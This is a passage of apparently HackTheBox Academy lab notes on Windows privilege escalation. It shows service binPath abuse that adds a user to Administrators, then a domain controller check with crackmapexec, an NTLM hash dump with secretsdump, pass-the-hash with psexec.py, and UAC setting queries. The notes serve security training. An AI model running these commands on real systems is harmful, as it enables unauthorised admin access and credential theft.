 #### Modifying the Service Binary Path
```cmd.exe
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```
Should show: `[SC] ChangeServiceConfig SUCCESS`

#### Starting the Service
```cmd.exe
sc start AppReadiness
```
*Starting the service won't be successful yet though.*

#### Confirming Local Admin Group Membership
```cmd.exe
net localgroup Administrators
```
If we check the membership of the administrators group, we see that the command was executed successfully, and that our user has access to the Administrators group.

#### Confirming Local Admin Access on Domain Controller
```Shell
crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'
```

#### Retrieving NTLM Password Hashes from the Domain Controller
```Shell
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```

*Can either crack the hash with Hashcat or Pass-the-Hash to access the DC*

***Lab Note: Used psexec.py to PtH and access DC, as xfreerdp wasn't working*
```Shell
psexec.py Administrator@10.129.43.42 -hashes :7796ee39fd3a9c3a1844556115ae1a54
```


## User Account Control

#### Confirming UAC is Enabled
```cmd.exe
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```
Will state `EnableLUA` if UAC is enabled

#### Checking UAC Level
```cmd.exe
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```
The value of `ConsentPromptBehaviorAdmin` is `0x5`, which means the highest UAC level of `Always notify` is enabled. There are fewer UAC bypasses at this highest level.

